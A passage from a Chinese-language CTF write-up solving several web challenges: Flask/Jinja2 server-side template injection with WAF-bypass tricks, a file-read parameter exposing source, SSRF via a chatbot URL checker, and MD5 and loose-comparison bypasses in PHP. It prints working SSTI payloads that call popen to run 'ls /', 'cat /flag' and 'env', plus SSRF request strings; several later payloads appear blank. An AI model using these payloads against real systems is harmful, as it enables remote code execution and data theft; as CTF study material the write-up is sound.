    for i in range(len(class_list)):
        if class_list[i]==target:
            print(str(i)+':'+target)
            break
        if i==len(class_list)-1:
            print('Not found!')

find_class(classes,target)
```
这里找到的索引为117。考虑到过滤了点号，可以利用`['']`绕过，可以构造如下payload:
1. payload1
   `{{''['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('ls /')['read']()}}`发现flag在根目录下；
   `{{''['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('cat /flag')['read']()}}`这样子没有读出来不知道为什么，可能是因为根目录下的flag文件也是空的，但是这也算是一种方法。
2. payload2
   `{{''['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('env')['read']()}}`通过环境变量可以方便读出flag，通过测试，这里除了env,set与export都可以使用。

## ezpython

第一步找get参数就给我卡住了，没想到是通过Arjun工具爆破([链接:https://github.com/s0md3v/Arjun](https://github.com/s0md3v/Arjun))。在Windows装了好久没装上，好像是因为版本问题，丢进Kali里面开虚拟环境:`pip install Arjun`就可以了。

扫描：`arjun -u http://ctf.mardle.cn:35317`或者指定`GET`方式扫描：`arjun -u http://ctf.mardle.cn:35317/ -m GET`

具体使用可以见官方文档[https://github.com/s0md3v/Arjun/wiki/Usage](https://github.com/s0md3v/Arjun/wiki/Usage)

找到参数名为:file.先随便构造一个`?file=a`，回显`Error reading file: [Errno 2] No such file or directory: 'a'`,因此推测这个参数可以读取源码内容。结合题目名称这个网站大概是利用python的flask框架搭的，那直接访问`?file=app.py`得到源码回显：
```python
from flask import Flask, request, render_template_string 
from flask_limiter import Limiter
from flask_limiter.util  import get_remote_address 
import waf 
app = Flask(__name__) 
limiter = Limiter( get_remote_address, app=app, default_limits=["300 per day", "75 per hour"] ) 
@app.route('/') 
@limiter.exempt 
def index(): 
    file_path = request.args.get('file') 
    if file_path and "proc" in file_path: 
        return "只过滤了proc，别想用这个了，去读源码", 200 
    if file_path: 
        try: 
            with open(file_path, 'r') as file:
                file_content = file.read() 
                return f"{file_content}" 
        except Exception as e: 
            return f"Error reading file: {e}" 
    return "Find the get parameter to read something" 
@app.route('/shell') 
@limiter.limit("10 per minute") 

def shell(): 
    if request.args.get('name'): 
        person = request.args.get('name') 
        if not waf.waf_check(person): 
            mistake = "Something is banned" 
            return mistake 
        template = 'Hi, %s' % person 
        return render_template_string(template) 
    some = 'who you are?' 
    return render_template_string(some) 
@app.errorhandler(429) 
def ratelimit_error(e): 
    return "工具？ 毫无意义，去手搓", 429 

if __name__ == '__main__': 
    app.run(debug=False, host='0.0.0.0', port=8000)
```
看到有`import waf`，把`waf.py`也读出来：`?file=waf.py`.
```python
def waf_check(value): 
    dangerous_patterns = ['os', 'set', '__builtins__', '=', '.', '{{', '}}', 'popen', '+', '__'] 
    for pattern in dangerous_patterns: 
        if pattern in value: 
            return False 
    return True
```

首先源码说`file`参数过滤了`proc`，笔者很好奇这是什么，去查了一下，原来`proc`是根目录下的一个文件夹，保存着很多服务器正在运行的进程信息。具体关于`proc`的应用笔者找到一篇blog：[proc目录在ctf中的应用](https://hackerqwq.github.io/2021/04/04/proc%E7%9B%AE%E5%BD%95%E5%9C%A8ctf%E4%B8%AD%E7%9A%84%E5%BA%94%E7%94%A8/#proc%E7%9B%AE%E5%BD%95)，值得一学。

回到正题，继续审计代码，`shell`下显然存在参数为`name`的ssti注入(`render_template_string`函数)，但是这个`waf`过滤了这些：` ['os', 'set', '__builtins__', '=', '.', '{{', '}}', 'popen', '+', '__'] `。因此就是ssti的过滤绕过了。

如果我们还是想用comment_me一样的方法可以怎么做呢，看上去限制很多，但其实就和没有限制一样，几个关键的步骤是：
`{{...}}`用来输出内容,如被过滤可以使用``，其表示陈述性语句，所以我们给它加一个`print()`用来输出就好了；
2. `.`与上一题一样，用`['']`拼接代替`.`即可；
3. 字符串拼接不一定需要`+`，`'a'+'b'`与`'a''b'`是一样的效果；
4. `_`可以用十六进制编码`\x5f`代替；
5. 由于本题没有过滤`request`参数，所以用传参方式也可以完成。

比如下面三个`payload`都可以获取字符串的类:
1. ``
2. ``
3. `&a=__class__`

我们就选择第一种拼接字符串的方式好了，首先构造payload读出可用的类:
``

然后找到`<class 'os._wrap_close'>`的索引为132，继续构造payload读出当前目录下的文件：
``
如下：`__pycache__ app.py f1ag_H3re11 requirements.txt waf.py`

读flag就好了：
``

1. `
PS:
1. 官方wp上来一个g给我整不会了，有点没看懂。
2. 一篇相当不错的绕过姿势blog:[最全SSTI模板注入waf绕过总结](https://blog.csdn.net/2301_76690905/article/details/134301620)

另外，笔者还了解到一个全自动化ssti注入的工具：[Fenjing-https://github.com/Marven11/Fenjing](https://github.com/Marven11/Fenjing)，笔者这才明白题目要限制访问次数，但是我们可以在本地尝试完成寻找`payload`的过程：手动把访问限制去除掉，在本地启动flask服务然后启动fenjing。

基本安装：
1. 启动虚拟环境
2. pip install fenjing
3. fenjing webui

设置界面(对于本题而言):


直接一把梭出了payload:
``

但是你需要注意，fenjing给出的payload是利用表单提交(我估计是爬虫)，所以对于文本输入有很多转义字符，如果你想直接扔进浏览器提交记得把转义字符删掉：
``
成功执行`ls`命令。             

## i_am_eeeeeshili

进去看到登录页面，可以注册账号，也可以修改账号。我们先尝试用`admin`账号登录一下，随便输一个密码，抓包可以看到：
`GET /check.php?file=.%2Flogin&account=admin&password=123 HTTP/1.1`
看到有个`file`的参数，猜测这里有文件包含漏洞，先随便写个`?file=./a`看看，存在回显`你是坏人`，页面有如下内容：
```php
$files = array('./login', './modify', './register', './flag');
if (isset($_POST['file']) && in_array($_POST['file'], $files)){...}
```
前面三个显然就是登录，注册与修改，我们用`?file=./flag`试试看，抓包看到如下信息：
```php
if (str_replace("\", "/", __FILE__)== $_SERVER["SCRIPT_FILENAME"]) {
    header("HTTP/1.0 403 Forbidden");
    die("前面的区域以后再探索吧！");
}
.........
$client_ip = $_SERVER["REMOTE_ADDR"];
$server_ip = $_SERVER["SERVER_ADDR"];
if ($client_ip === $server_ip) {
    if(md5($_GET["a"]) === md5($_GET["b"])){
        if ($_GET["c"] != $_GET["d"] && md5($_GET["c"]) == md5($_GET["d"])){
            if(substr(md5($_GET["e"]), 0, 5) === "9331c"){
                $file = fopen("./ffflllaaaggg.php", "w");
                fwrite($file, "<?php \n echo $flag".";");
                fclose($file);
            }
        }
    }
} else {
    $code = '';
    highlight_string($code);
    echo '<script>alert("错啦错啦错啦！");</script>';
    header('Location: login.html');
    die();
}
```
可以看到如果想成功`echo $flag`,第一步判断必须有`\$client_ip ===\$server_ip`，猜测存在ssrf漏洞(服务器端请求伪造)。之后就是一些绕md5方式，后面再看。我们先登录进去看看，像是一个聊天机器人界面，随便问问，输出：
`您好！输入check_[url]即可检验网站安全与否，例如check_https://baidu.com`
猜测可以由这个机器人向服务端发送请求绕过上面所说的第一步判断实现ssrf攻击。md5的比较均可以使用数组绕过，然后还要找到一串字符的md5数据的前五位为9331c，用md5截断脚本爆破：
```py
import hashlib

def find_md5(target,num1,num2):
    k=0
    while True:
        if hashlib.md5(str(k).encode('utf-8')).hexdigest()[num1:num2]==target:
            print(k,hashlib.md5(str(k).encode('utf-8')).hexdigest())
            break
        else:
            k+=1

find_md5('9331c',0,5)
```
尝试构造payload:
`check_http://127.0.0.1/check.php?file=./flag&a=1[]&b=2[]&c=3[]&d=4[]&e=1916798`
回显：
`危险操作！只能饿饿饿饿饿势力操作！`
结合题目名字我们猜测还有个账号名称是`eeeeeshili`，尝试修改密码，发现失败，抓包，在`http://ctf.mardle.cn:35447/check.php?file=./modify&account=eeeeeshili&password=123`的相应中看到一段base64编码，解码后得到：
```php
$client_ip = $_SERVER["REMOTE_ADDR"];
$server_ip = $_SERVER["SERVER_ADDR"];
if ($client_ip === $server_ip) {
    if ($_GET["KAF"] !== "1a" && (int)$_GET["KAF"] == "1a"){
        ...
    }
} else {
   	echo 'xxx'
    echo '<script>alert("坏蛋改不了一点密码！");</script>';
    die();
}
```
同样的ssrf，此处KAF用弱类型比较绕过即可，构造`KAF=1`比较时会被视为`bool`类型`True`。构造payload本地访问：
`http://127.0.0.1?file=./modify&account=eeeeeshili&password=123&KAF=1`
成功修改密码，再按照之上构造一次:
`check_http://127.0.0.1/check.php?file=./flag&a[]=1&b[]=2&c[]=3&d[]=4&e=1916798`
访问`./ffflllaaaggg.php`即可。

## filechecker_revenge(暂未完成)

寒假有时间再复现，未完待续......

